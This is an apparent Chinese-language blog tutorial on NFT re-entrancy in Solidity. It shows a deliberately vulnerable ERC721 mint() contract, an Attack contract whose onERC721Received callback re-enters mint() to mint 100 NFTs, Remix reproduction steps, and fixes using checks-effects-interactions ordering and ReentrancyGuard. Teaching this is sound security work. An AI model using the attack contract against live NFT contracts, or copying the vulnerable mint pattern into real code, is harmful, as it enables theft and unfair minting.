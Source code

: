 ```yaml
---
title: "合约安全：NFT重入攻击"
slug: solidity-smart-contract-security-nft-re-entrancy
date: 2022-08-22T10:12:14+08:00
draft: false
author: "5oneXj"

categories: ["合约安全"]
tags: ["solidity", "security", "fallback", "nft", "erc721", "erc1155"]
---
```


## 1 NFT重入风险

重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账NFT时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为NFT标准（ERC721/ERC1155）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。例如 `ERC721` 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

{{< admonition tip "ERC721 和 ERC1155 有潜在重入风险的函数" >}}

ERC721：
- safeTransferFrom
- _safeTransfer
- _safeMint
- checkOnERC721Received

ERC1155：
- safeTransferFrom
- _safeTransferFrom
- safeBatchTransferFrom
- _safeBatchTransferFrom
- _mint
- _mintBatch
- _doSafeTransferAcceptanceCheck
- _doSafeBatchTransferAcceptanceCheck

{{< /admonition >}}

## 2 漏洞复现

这是一个`ERC721`合约，每个地址可以免费铸造一个NFT，但是我们通过重入攻击可以一次铸造多个。

### 2.1 漏洞合约

`NFTReentrancy`合约继承了`ERC721`合约，它主要有 `2` 个状态变量，`totalSupply`记录NFT的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 `2` 个函数：
- 构造函数: 初始化 `ERC721` NFT的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造1个NFT。**注意：这个函数有重入漏洞！**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 2.2 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用`ERC721`合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了`IERC721Receiver`合约，它有 `1` 个状态变量`nft`记录了有漏洞的NFT合约地址。它有 `3` 个函数:
- 构造函数: 初始化有漏洞的NFT合约地址。
- `attack()`: 攻击函数，调用NFT合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的ERC721回调函数，会重复调用`mint()`函数，并铸造100个NFT。

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造100个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 100){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

### 2.3 Remix复现

1. 部署`NFTReentrancy`合约。
2. 部署`Attack`合约，参数填`NFTReentrancy`合约地址。
3. 调用`Attack`合约的`attack()`函数发起攻击。
4. 调用`NFTReentrancy`合约的`balanceOf()`函数查询`Attack`合约的持仓，可以看到持有`100`个NFT，攻击成功。

## 3 预防方法

主要有两种办法来预防重入攻击漏洞： `检查-影响-交互模式（checks-effect-interaction）`和`重入锁`。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

  ```solidity
      function mint() payable external {
          // 检查是否mint过
          require(mintedAddress[msg.sender] == false);
          // 增加total supply
          totalSupply++;
          // 记录mint过的地址
          mintedAddress[msg.sender] = true;
          // mint
          _safeMint(msg.sender, totalSupply);
      }
  ```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用OpenZeppelin提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)

## 4 总结

介绍了NFT的重入攻击漏洞，并攻击了一个有漏洞的NFT合约，铸造了100个NFT。目前主要有两种预防重入攻击的办法：`检查-影响-交互模式（checks-effect-interaction）`和`重入锁`。
